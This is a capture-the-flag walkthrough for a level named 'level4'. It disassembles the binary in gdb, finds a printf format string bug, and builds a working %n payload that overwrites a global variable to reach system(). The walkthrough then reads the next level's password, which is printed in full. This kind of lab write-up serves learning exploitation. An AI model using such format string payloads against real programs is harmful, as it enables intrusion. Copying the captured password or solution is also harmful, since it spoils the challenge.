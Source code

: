 # 🚀 Level 4 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level4
coucou
coucou
```
- 🧾 The program waits for input and prints it back.

## 🐞 Start it in GDB
```bash
(gdb-peda)$ pdisas main
Dump of assembler code for function main:
   0x080484a7 <+0>:		push   ebp
   0x080484a8 <+1>:		mov    ebp,esp
   0x080484aa <+3>:		and    esp,0xfffffff0
   0x080484ad <+6>:		call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
- 🔍 main calls a function n.

```bash
(gdb-peda)$ pdisas n
Dump of assembler code for function n:
   0x08048457 <+0>:		push   ebp
   0x08048458 <+1>:		mov    ebp,esp
   0x0804845a <+3>:		sub    esp,0x218
   0x08048460 <+9>:		mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
- 🧩 fgets reads user input.
- 📢 Function p prints the input.
- 🔐 When the global variable m equals 0x1025544 (decimal 16930116), system() is called.
```bash
(gdb-peda)$ pdisas p
Dump of assembler code for function p:
   0x08048444 <+0>:		push   ebp
   0x08048445 <+1>:		mov    ebp,esp
   0x08048447 <+3>:		sub    esp,0x18
   0x0804844a <+6>:		mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:		mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```
- ⚠️ printf is called without a format string, which creates a format string vulnerability.
- 🔍 Check Position of Our Buffer on Stack
```bash
$ python -c 'print("BBBB" + " %x"*15)' | ./level4
BBBB b7ff26b0 bffff694 b7fd0ff4 0 0 bffff658 804848d bffff450 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078
```
- 🔢 Our input "BBBB" (0x42424242) appears at the 12th position.

## 🔑 Confirm Address of m
```bash
$ python -c 'print("\x10\x98\x04\x08" + "%12$x")' | ./level4
8049810
```
We can write the address 0x8049810 of m into the input and leak it with %12$x.

## 💥 Exploit with %n Format Specifier
- Goal: write 16930116 into m.
- %n writes the number of printed bytes to the address passed on the stack.

```bash
$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' | ./level4
```
- 🛠 Padding %16930112d prints that many characters before %12$n writes that count to m.

## ✅ Final Step - Get Shell and Read Password
```bash
$ (python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
whoami
level5
cat ~level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
- 🎉 Done!
